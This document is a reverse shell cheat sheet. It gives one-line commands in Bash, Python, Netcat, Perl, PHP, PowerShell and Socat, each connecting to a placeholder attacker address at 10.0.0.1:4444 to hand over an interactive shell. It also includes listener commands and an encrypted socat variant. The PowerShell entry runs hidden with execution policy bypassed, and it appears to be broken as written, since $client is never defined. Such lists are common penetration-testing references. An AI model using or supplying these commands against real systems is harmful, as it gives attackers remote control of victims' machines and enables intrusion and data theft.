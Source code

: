 # Quick Reverse Shells Cheat Sheet

All examples assume:
- LHOST = attacker IP (e.g., 10.0.0.1)
- LPORT = attacker listener port (e.g., 4444)

---

## 🐚 Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

---

## 🐍 Python 3

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.0.0.1",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

---

## 🐍 Python 2

```bash
python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```

---

## 🦀 Netcat (with `-e`)

```bash
nc -e /bin/bash 10.0.0.1 4444
```

---

## 🦀 Netcat (without `-e`)

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f
```

---

## 🧪 Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

## 💾 PHP

```php
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🪟 PowerShell (Windows)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object Net.Sockets.TCPClient("10.0.0.1",4444);$s=$client.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1 | Out-String );$s.Write([text.encoding]::ASCII.GetBytes($r),0,$r.Length)}
```

---

## 📦 Socat

### Listener

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

### Reverse Shell

```bash
socat TCP:10.0.0.1:4444 EXEC:/bin/bash
```

---

## 🔒 Encrypted Reverse Shell (socat + certs)

### Listener (with cert)
```bash
socat OPENSSL-LISTEN:443,cert=cert.pem,key=key.pem,reuseaddr EXEC:/bin/bash
```

### Client
```bash
socat OPENSSL:10.0.0.1:443 VERIFY-SSL:0 EXEC:/bin/bash
```

---

## 📌 Listener Example

On attack box:
```bash
nc -lvnp 4444
```

---


